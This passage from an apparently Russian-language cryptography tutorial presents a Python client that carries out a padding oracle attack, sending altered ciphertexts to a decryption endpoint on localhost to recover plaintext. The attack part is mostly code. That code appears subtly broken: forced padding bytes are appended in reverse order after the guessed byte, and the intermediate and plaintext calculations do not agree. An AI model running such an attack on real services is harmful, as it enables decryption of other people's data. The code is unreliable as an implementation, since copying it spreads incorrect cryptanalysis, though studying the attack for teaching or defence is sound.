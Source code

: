 ## Клиент-скрипт на Python

Ниже пример кода, реализующего атаку с учётом обработки HTTP-ответов и задержек. Мы используем модуль `requests` для синхронных запросов, а `tqdm` для визуализации прогресса.

```python
import requests
import base64
from tqdm import tqdm

def request_padding(cipher_bytes: bytes, url: str) -> bool:
    cipher_b64 = base64.b64encode(cipher_bytes)
    resp = requests.post(url, data=cipher_b64, timeout=5)
    return resp.status_code == 200

def padding_oracle_attack(cipher: bytes, block_size: int, oracle_url: str) -> bytes:
    blocks = [cipher[i:i+block_size] for i in range(0, len(cipher), block_size)]
    recovered = b''
    for block_index in range(1, len(blocks)):
        C_prev = bytearray(blocks[block_index - 1])
        C_curr = blocks[block_index]
        intermediate = [0] * block_size
        plain_block = [0] * block_size
        for pad_len in range(1, block_size + 1):
            prefix = C_prev[:block_size - pad_len]
            for guess in range(256):
                modified = bytearray(prefix)
                # устанавливаем байты для корректного padding
                for i in range(1, pad_len):
                    byte = intermediate[-i] ^ pad_len
                    modified.append(C_prev[-i] ^ byte)
                # пытаемся угадать последний байт
                modified.append((C_prev[-pad_len] ^ guess ^ pad_len) & 0xFF)
                test_cipher = bytes(modified) + C_curr
                if request_padding(test_cipher, oracle_url):
                    intermediate[-pad_len] = guess ^ pad_len
                    plain_block[-pad_len] = intermediate[-pad_len] ^ C_prev[-pad_len]
                    break
        recovered += bytes(plain_block)
    # убираем PKCS#7 padding
    padding_len = recovered[-1]
    return recovered[:-padding_len]

if __name__ == "__main__":
    target_cipher_b64 = "..."
    target_cipher = base64.b64decode(target_cipher_b64)
    plaintext = padding_oracle_attack(target_cipher, 16, "http://localhost:5000/decrypt")
    print("Recovered plaintext:", plaintext)
```

Здесь цикл по `pad_len` от 1 до 16 последовательно вычисляет байты от конца блока к началу. Функция `request_padding` возвращает True, если padding валиден, и False — иначе.
